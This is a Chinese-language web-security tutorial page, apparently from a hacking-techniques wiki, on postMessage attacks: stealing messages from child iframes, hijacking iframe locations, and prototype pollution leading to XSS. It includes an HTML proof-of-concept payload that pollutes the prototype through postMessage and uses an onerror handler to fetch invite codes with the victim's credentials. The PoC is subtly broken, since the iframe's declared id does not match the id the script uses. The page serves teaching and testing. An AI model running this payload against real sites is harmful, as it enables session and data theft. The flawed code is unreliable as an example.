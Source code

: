 在以下页面中，您可以看到如何通过**阻止**主页面在发送数据之前窃取发送给**子iframe**的**敏感postmessage数据**，并利用**子页面中的XSS**在数据被接收之前**泄露数据**：

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### 通过修改iframe位置窃取消息

如果您可以iframe一个没有X-Frame-Header的网页，该网页包含另一个iframe，您可以**更改该子iframe的位置**，因此如果它接收使用**通配符**发送的**postmessage**，攻击者可以**更改**该iframe的**来源**为一个**被他控制**的页面并**窃取**消息：

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage导致原型污染和/或XSS

在通过`postMessage`发送的数据被JS执行的场景中，您可以**iframe**该**页面**并**利用**原型污染/XSS，通过`postMessage`发送利用代码。

一些**通过`postMessage`非常好地解释的XSS**可以在[https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)找到。

通过`postMessage`对`iframe`进行原型污染和然后XSS的利用示例：
```html
<html>
<body>
<iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
<script>
function get_code() {
document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
}

setTimeout(get_code, 2000);
</script>
</body>
</html>
```
对于 **更多信息**：

* 链接到关于 [**原型污染**](../deserialization/nodejs-proto-prototype-pollution/) 的页面
* 链接到关于 [**XSS**](../xss-cross-site-scripting/) 的页面
* 链接到关于 [**客户端原型污染到 XSS**](../deserialization/nodejs-proto-prototype-pollution/#client-side-prototype-pollution-to-xss) 的页面

## 参考文献

* [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)
* [https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd](https://dev.to/karanbamal/how-to-spot-and-exploit-postmessage-vulnerablities-36cd)
* 练习： [https://github.com/yavolo/eventlistener-xss-recon](https://github.com/yavolo/eventlistener-xss-recon)
